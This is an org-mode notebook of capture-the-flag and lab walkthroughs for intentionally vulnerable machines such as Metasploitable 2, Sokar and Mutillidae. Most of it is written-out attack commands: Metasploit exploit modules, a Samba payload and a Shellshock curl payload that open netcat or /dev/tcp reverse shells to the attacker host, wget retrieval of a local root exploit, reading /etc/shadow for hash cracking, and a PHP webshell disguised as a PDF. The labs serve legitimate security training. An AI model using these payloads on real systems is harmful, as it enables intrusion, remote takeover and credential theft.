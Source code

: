 #+TAGS: sec ctf


* Vuln Boxes							    :sec:ctf:
* Boxes
** Metasploitable
** Metasploitable 2
*** Walk Through with RWB on youtube
https://www.youtube.com/watch?v=JGUoOotVXNQ
**** Enumeration
- netdiscover
#+BEGIN_SRC sh
netdiscover -r 192.168.56.0/24
#+END_SRC

- nmap of results from above
#+BEGIN_SRC sh
nmap -sV -p-65535 192.168.56.102
#+END_SRC

- open port 21 - decides to use telnet to confirm service
#+BEGIN_SRC sh
telent 192.168.0.102 21
#+END_SRC

- nmap udp scan
#+BEGIN_SRC sh
nmap -sU 192.168.0.102
#+END_SRC

**** Telnet
Setting up wireshark to capture a telnet session login will allow the password to be caught.
To view the session right click the packet in wire shack and slect follow tcp stream.

**** VSFTP
First determine the version, and then research known exploits

- Using metasploit 
does metasploit have any exploits for vsftp
> search vsftp
> use exploit/unix/ftp/vsftpd_234_backdoor
> set rhost 192.168.0.102
> exploit
no prompt to acknowledge the shell
- use the shell access to view /etc/passwd and /etc/shadow to grab users and password hashes
  
hash-identifier - this can be used on the found hashes to id the hash type

Johnny - jtr gui
  - create a file of the user and hases - uesr:hash*$ksjflsQ
    
- Using Manual Exploit
The above exploit can be performed manually
> ftp 192.168.0.102
Name (192.168.56.102:root): a:)

The above has created a backdoor on port 6200
Use netcat to access the backdoor
> nc -vvn 192.168.0.56.102 6200

this will provide root shell

**** Samba
nmap shows that samba is running on 139 and 445
  
using metasploit aux module
> use auxiliary/scanner/smb/smb_version
> set rhosts 192.168.56.102
> run
this should return the version if available

- using metasploit
> search samba
> use exploit/multi/samba/usermap_script
> set rhost 192.168.56.102
> exploit
this should create a shell on the machone if it's vulnerable

- manually
using smbclient - similar in acton as ftp client
> smbclient //metasploitable/tmp
this should provide an anonymous user smb shell
on the host machine use netcat to set up a listner
> nc -lvnp 4444
on the smb shell
> logon "/=`nc 192.168.56.101 4444 -e /bin/bash`"
should now have a shell connected to the listner

**** DISTCC (Distributed C code across serveral machines on a network for compilation)
Exploits used
http://www.exploit-db.com/exploits/9915
https://www.exploit-db.com/exploits/8572/

nmap shows that dsitccd is running on port 3632 and the version is v1

nmap nse script for distcc version
#+BEGIN_SRC sh
nmap -p 3632 192.168.56.102 --script=distcc-cve2004-2687 --script-agree="distcc-cve2004-2687.cmd='uname -a'"
#+END_SRC
this should return the output of the cmd

- using metasploit
> search distcc
> use exploit/unix/misc/distcc_exec
> set rhost 192.168.56.102
> exploit
Unlike above this will create an interactive shell, not just a single cmd
using ps you can find if there is any other vectors to exploit
on this machine there is a udev exploit available
using searchsploit you can then check if udev has any know exploits
> searchsploit udev
this brings back an exploit linux/local/8572.c
this needs to be put on the targets machine
This can be done by hosting the file on apache
> service apache2 start
> cp /usr/share/exploitdb/platforms/linux/local/8572.c /var/www/html
now on the target use wget to pull the file
> cd /tmp
> wget 192.168.56.101/8572.c -O msp2.c
> touch run
> echo '#!/bin/sh' > run
> echo '/bin/netcat -e /bin/sh 192.168.56.101 5555' >> run
> gcc msp2.c -o msp2
> cat /proc/net/netlink
note the pid (2344)
on host run netcat listner
> nc -lvnp 5555
on target
> chmod +x msp2 
> ./msp2 2344
Should now have a root shell on the netcat listner

**** IngresLock Vuln
Simple vuln that only requires telnet
> telnet 192.168.56.102 1524
that is it, should now have a root shell

*** [[https://www.youtube.com/watch?v%3D0fbBwGAuINw][How to Exploit Metasploitable 2 with NMap, Nexpose, Nessus and Metasploit]]
- getting a html report from nmap report
#+BEGIN_SRC sh
nmap -O -sV -sC -oX nmap-scan.xml 192.168.56.101
cp /usr/share/nmap/nmap.xsl .
#+END_SRC
We need the nmap.xsl as it is the stylesheet for the xml file

- Vulnerability Scanners
  - OpenVAS
  - Nessus
  - Nexpose
** Sokar 1
VulnHub: [[https://www.vulnhub.com/?q%3Dsokar&sort%3Ddate-asc&type%3Dvm][Sokar 1]]
*** HackHappy Walkthrough
+ Enumeration
- netdiscover to find the server

- nmap on the server
#+BEGIN_SRC sh
nmap -sV -p- 192.168.56.102
#+END_SRC
This found an open port on 591

- http://192.168.56.102:591 - this takes you to a stats page
  
- gobuster is then used for more info
#+BEGIN_SRC sh
gobuster -w /usr/share/wordlists/dirb/All.txt -u http://192.168.56.102:591 -t 50
#+END_SRC
-t is number of threads

- nikto
#+BEGIN_SRC sh
nikto -h http://192.168.56.102:591
#+END_SRC

- found a /cgi-bin
- this confirms that the script is regualrly  updating, and confirms that it's the server output
  - this indicates a cron job
    
- attempt [[file://home/crito/org/tech/security/exploits/shellshock.org][Shellshock]]
#+BEGIN_SRC sh
curl -H "user-agent: () {:;}; echo; echo; /bin/bash -c 'id;;" http://192.168.56.102:591/cgi-bin/cat
#+END_SRC
this indicates that shell shock works and we can execute cmds as apache

- create a script with the above for convenience
c.sh
#+BEGIN_SRC sh
#! /bin/bash
curl -H "user-agent: () {:;}; echo; echo; /bin/bash -c '$1 $2 $3 $4 $5;'" http://192.168.56.102:591/cgi-bin/cat
#+END_SRC
- ./c.sh id
  - this will now perform the id cmd on the server
    
- viewing the home directories a user called bynarr has it set to 777
  - in the bash_profile this PATH=.:$PATH:$HOME/bin
    - the . in the PATH means that cmds can be executed from the home dir without the ./

- create a reverse shell from bynarr's home directory
  - on host
#+BEGIN_SRC sh
nc -l -p 51242
#+END_SRC
  - using the script from before
#+BEGIN_SRC sh
./c.sh '/bin/echo -e "bash -i >& /dev/tcp/192.168.56.101/51242 0>&1" > /home/bynarr/iostat'
#+END_SRC
  
- with the new shell check for sudo privs
#+BEGIN_SRC sh
sudo -l
#+END_SRC

- this indicates that we can use the script /home/bynarr/lime
  - this is a linux memory extractor
  - when run, and add is used it prints a file to the /tmp
    
- use grep, looking for root
#+BEGIN_SRC sh
grep root ram
#+END_SRC
this found the hash for the root acct

- also there was the other two accts hashes available in the file
  - apophis - was cracked to be overdrive
    
- as the reverse shell isn't a tty we can use
#+BEGIN_SRC sh
python -c 'import pty; pty.spawn("/bin/sh")'
#+END_SRC
will now be able to use su and become apophis

- inside of apophis is a file build.
  - then run it indicates that it tries but fails to connect to a repo
  - indication of version control, git is running on the machine 
    - looking at the version it appears there's a vuln

- to take advantage of the vuln in git we need to inpersonate sokar-dev, the dev server that build tries to connect to
  - walk through ended here as unable to edit /etc/hosts needed root priv
    
- I think that the .git file should have been looked for and edited the config to point to our host machine

** Mutillidae II
*** [[https://www.youtube.com/watch?v%3DCYsiNYeAS6U][Introduction to OWASP Mutillidae II Web Pen Testing Environment - Jeremy Druin]]
- is contained in Metasploit2
  
- Besides "hints" and "bubble hints" there is a file with 1,000+ lines of pre-tested hacks against various pages
  - <directory>/mutillidae/documentation/mutillidae-test-scripts.txt
*** [[https://www.youtube.com/watch?v%3D2ngGLMgjRVU][Web Pen-Testing Workshop - Part 2 - SQL Injection]]
*** [[https://www.youtube.com/watch?v%3Du3Wf_3SI_zE][Web Pen-Testing Workshop - Part 3 - Uploading Web Shells via SQL Injections]]
- null is used as it casts its self as any data type
- [[file://home/crito/org/tech/security/security_tools/laudanum.org][Laudanum]] is a tool that is useful for creating web shells

*** [[https://www.youtube.com/watch?v%3D4aGIrbC1tCk][Web Pen-testing Workshop - Part 4 - Auth Bypass via SQLi & Cookie Tampering]]
*** [[https://www.youtube.com/watch?v%3D0fODWaeupV0&t%3D5s][Web Pen-testing Workshop - Part 5 - Local/Remote File Inclusion]]
    
** SkyDog
VulnHub: [[http://download.vulnhub.com/skydog][SkyDogCTF]]
*** [[https://www.youtube.com/watch?v%3Dk1iFjyrsQqI][SkyDog CTF - RWBNetSec]]
- viewing image data with exiftool
- crack zip passwords with fcrackzip
- if a file is set root:root 777 with os.system() this can be used for priv escal
  - change contents of os.system('chmod u+s /bin/sh')

** De-ICE S1.110
VlunHub: [[https://www.vulnhub.com/?q%3Dde-ice&sort%3Ddate-asc&type%3Dvm][De-ICE]]
*** [[https://www.youtube.com/watch?v%3DoLM6L1_LYV0][Walkthrough De-ICE - HackHappy]]
- Inside the coredump was a copy of the shadow file

** Pentester Lab: PHP include And Post Exploitation
- file extension work around
  - adding the ?page=/../etc/passwd%00
    
- mime checking 
  - this can be fooled be creating a file that contains what the check expects
  - mime check looks at the header
#+BEGIN_SRC sh
%PDF-1.3
<?php system("id;whoami"); ?>
#+END_SRC

- now find where the file is being uploaded to
  - dirbuster
  - uploads
opening this file will not do anything, we need it to run throught the php parser    

- open the file from the search bar using the ?page=uploads/paper.pdf%00
  - this is now executed throught the php parser
    
** Wallaby's Nightmare
- php nuke rocket

* Links
